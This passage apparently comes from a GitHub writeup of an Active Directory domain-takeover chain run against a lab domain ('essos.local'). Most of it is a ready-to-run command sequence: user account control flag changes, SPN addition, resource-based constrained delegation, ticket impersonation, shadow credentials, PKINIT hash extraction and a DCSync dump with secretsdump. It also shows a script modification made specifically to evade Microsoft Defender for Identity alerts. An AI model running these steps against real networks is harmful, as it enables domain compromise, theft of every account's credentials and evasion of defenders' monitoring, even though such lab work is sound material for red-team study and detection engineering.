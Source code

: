 2. Add DA as Service Principle Name (SPN) to the Domain Controller to configure Kerberos based delegation

3. Configure resource-based constrained delegation (RBCD) on the Domain Controller to be able to impersonate any user (including the DC itself) on the DC

4. Request a Kerberos Service Ticket for the DC machine account on the DC

5. Add shadow credential to the DC

6. Obtain NTLM hash of DC with PKINIT ticket request. See the diff for `gettgtpkinit.py` in the comments below.

7. Impersonate DC and dump Active Directory with DCSync

I am really surprised that none of these attacks in the whole chain will trigger an alert out of the box. But it is what it is. Below are the necessary steps. for UAC manipulation i used a custom ldap_shell program which can be found on my Github.

```bash
python ldap_shell essos.local/daenerys.targaryen:'BurnThemAll!AndAll'
get_useraccountcontrol daenerys.targaryen
set_useraccountcontrol daenerys.targaryen 1048576 unset


# query
addspn.py --target-type samname -t daenerys.targaryen --spn "cifs/meereen.essos.local" \\ 
-u 'essos.local\daenerys.targaryen' -p 'BurnThemAll!' -q meereen.essos.local

# add
addspn.py --target-type samname -t daenerys.targaryen --spn "cifs/meereen.essos.local" \\ 
-u 'essos.local\daenerys.targaryen' -p 'BurnThemAll!' meereen.essos.local

# read
rbcd.py -use-ldaps -delegate-to "meereen$" -delegate-from daenerys.targaryen -action read \\
essos.local/daenerys.targaryen:'BurnThemAll!' -debug

# set
rbcd.py -use-ldaps -delegate-to "meereen$" -delegate-from daenerys.targaryen -action write \\ 
essos.local/daenerys.targaryen:'BurnThemAll!' -debug

getST.py -spn 'host/meereen.essos.local' -impersonate 'meereen$' essos.local/daenerys.targaryen:'BurnThemAll!'

export KRB5CCNAME="/home/kali/meereen.ccache"

certipy shadow -k -target meereen.essos.local list
certipy shadow -k -target meereen.essos.local clear
certipy shadow -k -target meereen.essos.local add

# slightly modified script as MDI alerted on forwardable tickets

# <     def build_asreq(self, domain = None, cname = None, kdcopts = []):
# ---
# >     def build_asreq(self, domain = None, cname = None, kdcopts = ['forwardable','renewable','renewable-ok']):

gettgtpkinit.py 'essos.local/meereen$' -cert-pfx MEEREEN.pfx meereen.ccache

export KRB5CCNAME=meereen.ccache

python getnthash.py -key <key> 'essos.local/meereen$'

secretsdump.py essos.local/meereen\$@192.168.56.12 -hashes :<nthash> -dc-ip 192.168.56.12 -just-dc


# clean up 
```